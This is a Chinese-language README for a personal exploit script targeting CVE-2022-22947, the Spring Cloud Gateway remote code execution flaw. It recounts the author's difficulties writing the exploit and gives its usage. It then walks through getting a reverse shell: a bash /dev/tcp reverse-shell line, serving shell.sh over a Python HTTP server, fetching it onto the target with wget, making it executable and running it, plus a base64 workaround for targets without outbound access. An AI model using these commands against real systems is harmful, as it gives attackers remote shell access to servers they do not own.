



# 工具介绍

嘛。天天在外面跑项目，终于抽点时间研究一下这个漏洞的poc了。

就随便写了一个。辣鸡。大佬看着辣眼睛请绕过。

写这个exp的时候碰到了很多的问题把。

1. 网上的有个poc的那个是这样写。多了一个new String[]。然后发现不能执行带有空格的命令，想了好些办法，比如空格绕过$IFS呀啥的都不行。然后看到另一个poc可以。想不通在哪找了好多地方的问题。还以为是我写错了。最后仔细对比才发现。使用的地方差了一点点。



2. 这个rui的http里面的东西虽然可以瞎写好些。但是如果没写http://就不行。一开始我写漏了。就写了一个127.0.0.1结果失败了。



# 工具的使用

使用:

```
python CVE-2022-22947.py 目标 
```



反弹直接执行反弹shell的命令好像是没成功，如果不行而且出网其实还有很多方法可以用，比如下面这个方法。

我是先新建了一个shell.sh，然后在文件中写入反弹shell的命令。

```
bash -i >& /dev/tcp/ip/prot 0>&1
```

然后在shell.sh的目录下，用python开启一个http服务。

```
python3 -m http.server 8080
```

再然后用wget下载一个shell.sh。

```
wget http://xxxxx:8080/shell.sh
```

再再然后给一个文件的执行权限。

```
chmod +x shell.sh
```

最后执行shell.sh文件。

```
bash shell.sh
```

这样就把shell反弹出去了，当然了，这是目标要出网的，不出网的情况你当然可以使用使用echo命令把base64编码的命令写入到文件里，然后再base64 -d进行解码后在执行。